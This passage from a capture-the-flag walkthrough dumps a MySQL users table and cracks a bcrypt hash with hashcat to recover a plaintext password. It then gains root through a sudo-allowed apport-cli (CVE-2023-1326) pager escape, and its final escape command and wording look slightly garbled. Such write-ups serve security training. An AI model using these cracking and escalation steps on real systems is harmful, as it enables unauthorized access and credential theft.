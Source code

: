 Now let's enumerate:
```sql
SHOW DATABASES; 
```

After a bit of time spent at enumerating and searching inside some databases and columns/rows values i found the interesting one:
```sql
SELECT * FROM sd4fg_users;
```
Here between much not interesting things we can notice the hashed password of the user called logan
```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIjq12 
```
We can save it in a file for later use.
Now is time to find the hash type so we can crack it, you can use an online tool like this one: https://hashes.com/en/tools/hash_identifier, we can see that the type is Blowfish.

I have decided to use Hashcat to crack this, so i searched online for the mode number corresponding to this hash type and started the tool
```bash
hashcat -a 0 -m 3200 logan_psw_hash.txt  /home/kali/Documents/rockyou.txt
```

After a couple of minutes we have the password: tequieromucho

Now back into the shell we gained before we can change user to logan and open the first flag.
```bash
su logan
```
```bash
cat /home/logan/user.txt
```
(you can also log in with ssh)
And the first flag is: REDACTED
<br/>

## Time to become root
I wanted to see if the user logan could run any binary as sudo
```bash
sudo -l -S
```
```
(ALL : ALL) /usr/bin/apport-cli
```

```bash
sudo /usr/bin/apport-cli -v
```
It is running version 2.20.11 which is vulnerable to CVE-2023-1326

To exploit it run:
```bash
sudo /usr/bin/apport-cli --file-bug
```
When prompted for an option and you have to chose the number, select any for the first 2 times;
The third prompt asks you for a letter, chose `V`
When the text editor opens write `:/bin/bash` aaand magic we are not root.

